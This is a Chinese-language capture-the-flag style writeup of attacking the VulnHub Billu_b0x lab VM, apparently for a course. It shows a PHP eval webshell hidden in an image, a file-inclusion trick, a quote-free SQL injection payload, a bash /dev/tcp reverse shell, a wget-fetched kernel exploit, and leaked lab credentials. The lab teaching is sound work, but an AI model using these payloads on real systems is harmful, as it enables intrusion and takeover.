# 网络攻防实战 Lab05 Writeup

!!! quote "使用的靶机为 VulnHub IndiShell Lab: Billu_b0x"

!!! success "目前为止最复杂 && 解法最多的靶机"

## 渗透目的

取得目标靶机的 root 权限

了解 SQL 注入，dirb 地址爆破，远程文件下载，图片马攻击等渗透方法

## 具体操作

### 信息收集

启动 VirtualBox 中的 Kali 攻击机（用于进行渗透攻击）与 Kioptix 靶机，网络采用 NAT 连接

`ifconfig` 获取攻击机的 ip 为 `10.0.2.3`，使用 `nmap` 扫描 ip：

```yacas
> nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( nmap.org ) at 2025-10-21 08:42 CST
Nmap scan report for bogon (10.0.2.1)
Host is up (0.00033s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00026s latency).
MAC Address: 08:00:27:F2:95:CC (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.5)
Host is up (0.0013s latency).
MAC Address: 08:00:27:1C:31:B1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.3)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.94 seconds
```

考虑靶机 ip 为 `10.0.2.5`，继续扫描端口 `nmap -sV -sC 10.0.2.5`，看看有哪些服务项

```yacas
> nmap -sV -sC 10.0.2.5
Starting Nmap 7.95 ( nmap.org ) at 2025-10-21 08:42 CST
Nmap scan report for bogon (10.0.2.5)
Host is up (0.0028s latency).
Not shown: 998 closed tcp ports (reset)

// SSH 服务
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)
|   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)
|_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)

// HTTP 服务
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: --==[[IndiShell Lab]]==--
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 08:00:27:1C:31:B1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.80 seconds
```

同时确定靶机操作系统为 `Ubuntu`

---

### 尝试方向 1: HTTP



发现需要账号和密码，sqlmap 扫不到注入点，但是此处 “Show me your SQLI skills” 说明应该有注入点；随意输入账号密码登录，抓包内容也没什么线索

```yacas
> sqlmap -u 10.0.2.5 --forms --crawl=2 --risk=2 --level=3
// 最终 sqlmap 的结果
[09:43:21] [ERROR] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent', skipping to the next target
```

#### HTTP 目录爆破

决定用 `dirb` 扫一下，扫出来东西不少，以下是精简后的内容：

```yacas
dirb http://10.0.2.5 /usr/share/dirb/wordlists/big.txt
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Oct 21 09:24:16 2025
URL_BASE: http://10.0.2.5/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://10.0.2.5/ ----
+ http://10.0.2.5/add (CODE:200|SIZE:307)
+ http://10.0.2.5/c (CODE:200|SIZE:1)
+ http://10.0.2.5/cgi-bin/ (CODE:403|SIZE:284)
+ http://10.0.2.5/head (CODE:200|SIZE:2793)
==> DIRECTORY: http://10.0.2.5/images/
+ http://10.0.2.5/in (CODE:200|SIZE:47524)
+ http://10.0.2.5/index (CODE:200|SIZE:3267)
+ http://10.0.2.5/panel (CODE:302|SIZE:2469)
==> DIRECTORY: http://10.0.2.5/phpmy/
+ http://10.0.2.5/server-status (CODE:403|SIZE:289)
+ http://10.0.2.5/show (CODE:200|SIZE:1)
+ http://10.0.2.5/test (CODE:200|SIZE:72)
==> DIRECTORY: http://10.0.2.5/uploaded_images/
// 省略每个 Directory 里的内容
-----------------
END_TIME: Tue Oct 21 09:26:36 2025
DOWNLOADED: 61374 - FOUND: 37
```

以下是几个重点关注的 subsite（至少可以正常打开）：

> 10.0.2.5/add
>
> 一个上传图片的入口，怀疑可以上传图片马（比如 php 一句话木马）




> 10.0.2.5/test
>
> 缺少一个 file 字段，怀疑可以在 /add 网站上传图片马后在这里访问，也有可能是任意文件读取漏洞




> 10.0.2.5/in
>
> PHP 环境与配置一览无遗，最核心的是 System 字段，展示了靶机系统和内核版本




>10.0.2.5/phpmy
>
>php 登录页面，默认密码不正确



> 10.0.2.5/index
>
> 默认的登录网站，我真的不相信没有 SQL 注入点

##### /add 子页面

看上去只能上传照片，前端没有 js 检查，应该是后端检查：

尝试上传一个 php 一句话木马 `shell.php`，用 BurpSuite 抓包一下：

```
POST /add HTTP/1.1
Host: 10.0.2.5
Content-Length: 609
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.0.2.5
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySAc3kUlEiXINjlY8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.5/add
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ivqiuu7jaq7egeeijdbacpn1r4
Connection: keep-alive

------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/x-php

<?php eval($_POST['cmd']); ?>

------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="name"

name
------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="address"

address
------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="id"

1337
------WebKitFormBoundarySAc3kUlEiXINjlY8
Content-Disposition: form-data; name="upload"

upload
------WebKitFormBoundarySAc3kUlEiXINjlY8--
```

把 `application/octet-stream` 修改为 `image-jpeg` （后来发现都不需要改），上传上去发现 **200 OK** 了，但是好像什么响应都没有，`/uploaded_images` 也没有出现内容，应该是没有用（或者说是一个缺乏具体应用场景的空壳）



##### /test 子页面

页面的内容是：

> 'file' parameter is empty. Please provide file path in 'file' parameter

一开始我推测这里可以运行 `/add` 上传的文件，但是发现没有实际上传，于是推测这里可以远程文件读取，但是 file 字段似乎始终不可用，BurpSuite 抓包一下



GET 一直没有反应（不应该🤔，以及为什么是 GET），考虑到一般接发文件都使用 POST，改成 POST 试试：



（挺震撼的）

发现通过 `test.php` 的远程文件下载可以远程下载大多数文件（需要 root 读权限的不行），不如从 phpMyAdmin 入手获取内容

这里放一段 STFW 的内容：

> phpMyAdmin 的配置文件 *config.inc.php* 是用于设置数据库连接、安全选项和界面功能的核心文件
>
> 在不同操作系统中，*config.inc.php* 文件的位置可能有所不同：
>
> - **Linux/Unix/macOS**: */etc/phpmyadmin/config.inc.php*

发现 File not found，遂询问 AI，AI 给了解答

> **3. 在 Web 服务器的文档根目录内 (通用情况)**
>
> 当你**手动下载** phpMyAdmin 的压缩包并解压到你的 Web 目录（如 `/var/www/html`）时，配置文件就在 phpMyAdmin 的根目录里。
>
> - `[你的Web根目录]/phpmyadmin/config.inc.php`
>   - 例如：
>     - `/var/www/html/phpmyadmin/config.inc.php`
>     - ...

尝试了若干个可能的文件位置，最终在 `/var/www/phpmy/config.inc.php` 成功下载了文件

```php
<?php

/* Servers configuration */
$i = 0;

/* Server: localhost [1] */
$i++;
$cfg['Servers'][$i]['verbose'] = 'localhost';
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['port'] = '';
$cfg['Servers'][$i]['socket'] = '';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['auth_type'] = 'cookie';
$cfg['Servers'][$i]['user'] = 'root';			// 账号
$cfg['Servers'][$i]['password'] = 'roottoor';	// 密码
$cfg['Servers'][$i]['AllowNoPassword'] = true;

/* End of servers configuration */

$cfg['DefaultLang'] = 'en-utf-8';
$cfg['ServerDefault'] = 1;
$cfg['UploadDir'] = '';
$cfg['SaveDir'] = '';


/* rajk - for blobstreaming */
$cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
$cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
$cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
$cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';


?>
```

在 phpMyAdmin 上登录失败，考虑到还开放了 SSH 服务，于是在 SSH 上尝试：

```yacas
> ssh root@10.0.2.5
root@10.0.2.5's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Oct 21 17:43:30 IST 2025

  System load:  0.0               Processes:           78
  Usage of /:   12.1% of 9.61GB   Users logged in:     0
  Memory usage: 10%               IP address for eth0: 10.0.2.5
  Swap usage:   0%

// 省略一些输出

root@indishell:~# 

```

**很神奇地获取了 root 权限**，出于对 phpMyAdmin 的管理员账户的好奇，获取一下账密

```shell
root@indishell:~# cat /etc/mysql/debian.cnf
# Automatically generated for Debian scripts. DO NOT TOUCH!
[client]
host     = localhost
user     = debian-sys-maint
password = Ypo4adDVx2Bzel79
socket   = /var/run/mysqld/mysqld.sock
[mysql_upgrade]
host     = localhost
user     = debian-sys-maint
password = Ypo4adDVx2Bzel79
socket   = /var/run/mysqld/mysqld.sock
basedir  = /usr
```

以管理员身份进入了 phpMyAdmin：



（权限似乎有点混乱，个人认为 `root-roottoor` 账密应该用于 php 后台登录，而不是 ssh 登录）

##### /index.php 根页面

最常用的万能密码不能使用，而这里又有 SQL 注入的暗示，考虑是屏蔽了一些 SQL 语句符号，比如单引号 `'` 

在之前的操作中已经得到了远程文件下载的能力，不妨审计 `index.php` 的代码：

```php
// 只保留了关键的部分
if(isset($_POST['login']))
{		
    	// 把输入中的单引号删掉了，唯一的防御点
        $uname=str_replace('\'','',urldecode($_POST['un']));
        $pass=str_replace('\'','',urldecode($_POST['ps']));
        $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
        $result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
           echo "You are allowed<br>";
           $_SESSION['logged']=true;
           $_SESSION['admin']=$row['username'];
           
         header('Location: panel.php', true, 302);
   
}
else
{
        echo "<script>alert('Try again');</script>";
}

}
```

发现确实会删除输入中的单引号，STFW 找到一个不使用单引号的 payload `or 1=1 #" / =\`

账号密码都输入以上 payload 后成功登录 panel：

> 后来发现在远程文件下载时，可以下载 `c.php`，内容中包含了一个低权限的 phpMyAdmin 的账密，登录后可以查看 panel 页面的账密，就不需要 SQL 注入了





发现 Add User 界面使用的是 /add 页面的框架，依旧是上传一句话木马 `shell.php` ，抓包改 `Content-Type: application/x-php` 为 `Content-Type: image/png`，结果是：

> only png,jpg and gif file are allowed

考虑伪装文件头，将一张随手截屏的 png 图片和 php 代码拼接，以 `.png` 格式上传成功（似乎会硬检查后缀名，改 request 也无效）

 

再次打开 Add User 界面时一定会读取刚刚上传的照片，抓一下包：

```
POST /panel.php HTTP/1.1
Host: 10.0.2.5
Content-Length: 27
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.0.2.5
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.5/panel.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=hjsm15j6iifqf6i150hp28nim6
Connection: keep-alive

load=show&continue=continue

// 以及 response 中被上传的图片的位置
// 
```

我们修改 `load=show` 为 `load=uploaded_images/shell.png`，然后经典的 `?cmd=ls` 试一试

> 在这一步卡了一个多小时，主要是理解 load 参数的使用（利用之前的远程文件读取翻 panel.php 才能理解这个参数），以及尝试直接在 panel.php 携带参数。另外一开始我一直尝试上传 .php 后缀的文件发现查的很严（白名单限制），在上传 .png 文件的时候也不确定可以执行 php 部分
>
> ```php
> if(isset($_POST['continue']))
> {
> 	$dir=getcwd();
> 	$choice=str_replace('./','',$_POST['load']);
> 	
> 	if($choice==='add')
> 	{
>    			include($dir.'/'.$choice.'.php');
> 			die();
> 	}
> 	
>         if($choice==='show')
> 	{
>         
> 		include($dir.'/'.$choice.'.php');
> 		die();
> 	}
> 	else
> 	{
> 		include($dir.'/'.$_POST['load']);	// 这里有执行一句话木马的条件
> 	}
> 	
> }
> ```

```
POST /panel.php?cmd=ls HTTP/1.1
Host: 10.0.2.5
Content-Length: 49
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.0.2.5
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.5/panel.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=hjsm15j6iifqf6i150hp28nim6
Connection: keep-alive

// 这里是我换了个图片马，所以名字不一样
load=uploaded_images/shell2.jpg&continue=continue
```

发现 response 中真的执行了 `ls` 指令，于是我们可以 Getshell，把 cmd 参数设置为 `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.0.2.3/1234+0>%261"` （获取反向 Shell 的指令进行 URL 编码）

```shell
> nc -lvp 1234 
listening on [any] 1234 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.5] 45714
bash: no job control in this shell
www-data@indishell:/var/www$
```

成功获得了 www-data 低权限用户，这里我考虑换一种提权方式：内核提权

> 其实 phpinfo 页面已经有了这些信息，我忘记了

```yacas
www-data@indishell:$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.04.5 LTS
Release:        12.04
Codename:       precise

www-data@indishell:/var$ uname -a
uname -a
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

获取版本为 Ubuntu 12.04.5 LTS，内核为 Linux 3.13.0，`searchsploit` 搜一下：

```yacas
> searchsploit Ubuntu 12.04.5        ✔  23:55:11   
-------------------------------- ---------------------------------
 Exploit Title                  |  Path
-------------------------------- ---------------------------------
Ubuntu < 15.10 - PT Chown Arbit | linux/local/41760.txt
-------------------------------- ---------------------------------
Shellcodes: No Results

> searchsploit Linux 3.13.0 
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
// 删掉了一些不太相关的搜索结果
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Loca | solaris/local/15962.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privil | linux/local/50135.c
Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE' / 'SO_ | linux/local/41995.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.1 | linux/local/37292.c			// choose this
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.1 | linux/local/37293.txt
Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode P | linux_x86-64/local/33516.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64)  | linux_x86-64/local/31347.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_ | linux/local/31346.c
Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (Po | linux/dos/31305.c
---------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

攻击机上 http 上传一份代码，靶机上接收编译运行：

```yacas
www-data@indishell:/$ cd /tmp
cd /tmp
www-data@indishell:/tmp$ wget 10.0.2.3:1145/37292.c
wget 10.0.2.3:1145/37292.c
--2025-10-21 21:40:10--  http://10.0.2.3:1145/37292.c
Connecting to 10.0.2.3:1145... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: `37292.c'

     0K ....                                                  100%  288M=0s

2025-10-21 21:40:10 (288 MB/s) - `37292.c' saved [4968/4968]

www-data@indishell:/tmp$ gcc 37292.c -o exploit
gcc 37292.c -o exploit

www-data@indishell:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
```

获得了 root 权限

> 后记：在 Getshell 后可以用老师上课时推荐使用的 linpeas 进行信息搜集，可以直接找到 root 账密

### 尝试方向 2: SSH

有一个 SSH 页面，在方向 1 获取 root 密码为 `roottoor` 时，意识到这是一个弱密码，因此可以尝试直接用 Hydra 进行爆破：

（可以在尝试方向 1 的时候，单独开一个窗口跑 Hydra）

实测发现平均每分钟可以处理 200 组密码（账号 root），如果用 `rockyou.txt` 可能要爆破一晚上，并且之后发现 `roottoor` 这个密码甚至不在 `rockyou.txt` 的庞大数据集中

所以爆破成功的可能性很低

---

## 渗透结果

成功获取了 root 权限并且修改了 root 密码，登录靶机界面，输入新密码进入 root 账号：



另外获得 root 权限后可以搜索获得 phpMyAdmin 的管理员账号搜集信息

---

## 渗透全过程图示

用 mermaid 绘制了一幅全过程清单

